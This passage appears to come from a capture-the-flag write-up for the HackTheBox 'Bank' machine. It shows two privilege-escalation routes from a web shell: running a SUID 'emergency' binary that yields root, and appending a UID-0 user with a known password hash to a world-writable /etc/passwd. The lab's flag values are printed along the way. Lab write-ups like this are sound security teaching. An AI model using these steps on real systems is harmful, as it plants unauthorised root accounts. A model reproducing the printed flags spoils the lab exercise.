 We found an interesting `/var/htb/bin/emergency` so lets try to run it

```
www-data@bank:/var/www/bank/uploads$ /var/htb/bin/emergency
/var/htb/bin/emergency
#

# whoami
whoami
root
# cat /home/chris/user.txt
cat /home/chris/user.txt
c81ee9df3751ccf82b64af3046a3269a
# cat /root/root.txt
cat /root/root.txt
e92b13e6ff0dd9361add88e07b6687c9
```

# Alternative Privilege Escalation

Another way of getting root is to exploit the writeable `passwd` folder.

```
# ls -l /etc/passwd /etc/shadow 				Note that -1 will generate a MD5 password, -5 a SHA256 and -6 SHA512
ls -l /etc/passwd /etc/shadow
-rw-rw-rw- 1 root root   1252 May 28  2017 /etc/passwd
-rw-r----- 1 root shadow  895 Jun 14  2017 /etc/shadow
```

Then, generate a password hash for the password “shiro” using openssl

```
# openssl passwd -1 shiro
openssl passwd -1 shiro
$1$pOJIRjNf$gJAUfsAmmuY1XUuud4ink/
```

Then add a line to `/etc/passwd` using echo in this format

-   `username:password:userid:groupid:comment:homedirectory:shell`

```
# echo 'shiro:$1$pOJIRjNf$gJAUfsAmmuY1XUuud4ink/:0:0:pwned:/root:/bin/bash' >> /etc/passwd
echo 'shiro:$1$pOJIRjNf$gJAUfsAmmuY1XUuud4ink/:0:0:pwned:/root:/bin/bash' >> /etc/passwd
# su - shiro
su - shiro
Password: shiro

root@bank:~#
```
